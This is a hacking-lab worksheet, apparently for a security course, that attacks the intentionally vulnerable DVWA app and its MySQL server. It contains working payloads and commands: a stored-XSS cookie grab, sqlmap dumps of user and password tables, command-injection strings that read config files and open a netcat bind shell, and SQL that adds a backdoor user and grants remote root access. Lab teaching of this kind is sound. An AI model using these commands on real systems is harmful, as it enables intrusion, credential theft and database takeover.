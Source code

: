 * LAB: HACKING MYSQL and WEB-APP (dvwa)

You will:
- [X] HACKING into DB-server and
  - [X] Create a new WEB-APP user (<your_name>/comein) for WEB-APP login (login.php)
  - [X] Create a new DB-user 'root'@'%' (remote DB-login)


* Overview: Hacking Mysql and a WEB-APP with user-login

Step 1: INFORMATION gathering
- [ ] get DB-information (what database, tables, user, passwords, ...)
  - [ ] use XSS (stored) to get session-id
  - [ ] use sqlmap to get login passwords

Step 2: HACK into DB and create WEB-APP user for WEB-APP login
- [ ] use Command Injection to find/read file config.inc.php
  - [ ] config.inc.php holds password for user: admin (DVWA) 
- [ ] use mysql> to create a new user in database dvwa
- [ ] mysql> use database dvwa and insert a new user (<your name>/comein)
- [ ] login: http://localhost/dvwa/login.php

Step 3: HACK into remote Computer (shell-access) and create DB-user 'root'@'%' (remote DB-login)
- [ ] use Command Injection to get shell-access
- [ ] use mysql> to get root-access and create user root@%
- [ ] test remote login and full root access to the database.


* DIY 1: INFORMATION gathering (what database, tables, users, passwords are used in WEB-APP)

** Step 1: use XSS (stored) to get session-id

#+BEGIN_SRC php
<script>alert(document.cookie );</script>

for example: lpmkv3jih7chc14mf9186bdni5
#+END_SRC


** Step 2: use sqlmap to get passwords for WEB-APP login-users

1. [ ] goto folder scripts/sqlmap and edit Makefile:
   - URLBASE= http://localhost or http://172.16.48.122:88## (## is your indiv. number)
   - PHPSESSID=lpmkv3jih7chc14mf9186bdni5
   - SQLMAP=sqlmap

2. [ ] use make and get DB infos and store the results in file NAME-dvwa-db-info-by-sqlmap.txt

#+BEGIN_SRC bash
make
make 1
make 2
make 2 > NAME-dvwa-db-info-by-sqlmap.txt
make 3
make 3 >> NAME-dvwa-db-info-by-sqlmap.txt
...
make 6
make 6 >> NAME-dvwa-db-info-by-sqlmap.txt
press some enter



See some infos (cat NAME-dvwa-db-info-by-sqlmap.txt):
...
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema

...
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+

...
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+

...
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+

#+END_SRC


** Step 3: test WEB-APP login-user: smithy/password with: http://localhost/login.php


** Step 4: use sqlmap to get all DB-users of the DB-server

- [ ] hint: use sqlmap to find (User, Password ,Host) from
  - [ ] Database: mysql,
  - [ ] Table: user

- [ ] answer: use this sqlmap-command (adjust some values)

#+BEGIN_SRC bash

sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=lpmkv3jih7chc14mf9186bdni5" -D mysql -T user -C User,Password,Host --dump

your output could be:

Database: mysql
Table: user
[5 entries]
+--------+-------------------------------------------+--------------+
| User   | Password                                  | Host         |
+--------+-------------------------------------------+--------------+
| root   | <blank>                                   | localhost    |
| root   | <blank>                                   | 6db72f2016ca |
| root   | <blank>                                   | 127.0.0.1    |
| root   | <blank>                                   | ::1          |
| admin  | *C4875E03A0686D7AE50A6C2CB132E38FCC9EABCE | %            |
+--------+-------------------------------------------+--------------+

#+END_SRC


** Step 5: RESULT: *Only* user *admin* has *remote access* to the mysql-database.


* DIY 2: What is the password of DB-user admin?

In file *config.inc.php* is a DB-user (incl. password) named admin that
1. has access and all privs for database dvwa
2. has privs to create a new DB-user

** Step 1: use command Injection to find config.inc.php
- hint: how to find **config.inc.php**

- [ ] use WEB-APP/DVWA: Command execution and enter

#+BEGIN_SRC bash
127.0.0.1; find / -name config.inc.php


the output is:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.068 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.078 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.067 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3060ms
rtt min/avg/max/mdev = 0.027/0.060/0.078/0.019 ms
/app/config/config.inc.php

#+END_SRC


** Step 2: use command `cat /app/config/config.inc.php` to get the password for user admin

- hint: use *view-source* in your browser
- Answer: the password of user admin is ZdV6GJ5t6FIq


** Step 3: get remote access to the mysql-server and use the dvwa database

- Exercise: remote login to mysql on DVWA-Server

#+BEGIN_SRC sql

mysql -u admin -h localhost or 172.16.48.122 -P 3066 -p
   <enter the passwd> you will find it in config.inc.php on DVWA-Server ...

use dvwa;
#+END_SRC






** Step 4: insert a new WEB-APP-user (<your_name>/comein) for login using login.php

- [ ] login to the mysql-database with the user admin and
- [ ] create a record into table dvwa.users

#+BEGIN_SRC sql
hint: (use your name below)

use dvwa;

describe users;

insert into dvwa.users (user_id, first_name, last_name, user, password)
values(99, 'anton', 'hofmann', 'hofmann', 'comein');

update users  set password=md5('comein') where user_id=99;
#+END_SRC


** Step 5: test your new WEB-APP-user using http://localhost/login.php




* DIY 3: Get remote shell-access to use DB-user root@localhost

1. With command injection we will start a shell-service on port 4444 of the DVWA-Server.
2. with a simple local netcat command we can connet to the remote DVWA-Server.

** Step 1: Command Injection to get remote shell-access

1. On DVWA-Server: Command injection:

#+BEGIN_SRC bash
127.0.0.1 ; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l 4444 > /tmp/pipe
#+END_SRC

- Make a FIFO named pipe.
  - Pipes allow separate processes to communicate (without having been designed explicitly to work together.)
  - This will allow two processes to connect to netcat.
- Use (nc -l 4444) to tell netcat to listen and allow connections on port 4444.

- Use (mkfifo /tmp/pipe) to create a named pipe that provides IPC (Inter Process Communication)
- Use (sh /tmp/pipe) to attach an interactive shell to the named pipe (/tmp/pipe).
- Use (sh /tmp/pipe | nc -l 4444) to attach the interactive shell to the netcat session listening on port 4444.
- Use (nc -l 4444 > /tmp/pipe) to receive the output of netcat session and send it to the named pipe's input, 
where it becomes input for the shell.
- Click Submit


2. on your other Computer
- Use nc to Connect to DVWA Netcat session on port 4444

#+BEGIN_SRC bash
$> nc 172.16.48.122 4444

$> hostname
This is server hostname that hosts DVWA.

$> uname -a
List System Kernel and Architecture Information

$> who
Display who is logged in

$> cat /etc/passwd
Show  /etc/passwd file

#+END_SRC




** Step 2: use mysql> to create DB-user root@% to HACK and TAKE OVER DB

#+BEGIN_SRC bash
echo "GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'comein' WITH GRANT OPTION;" | mysql -u root
#+END_SRC


That's it. We have REMOTE ROOT ACCESS to the DB-server of DVWA!!!



* Add-on: get db-access using sql-injection
- see [[http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/]]
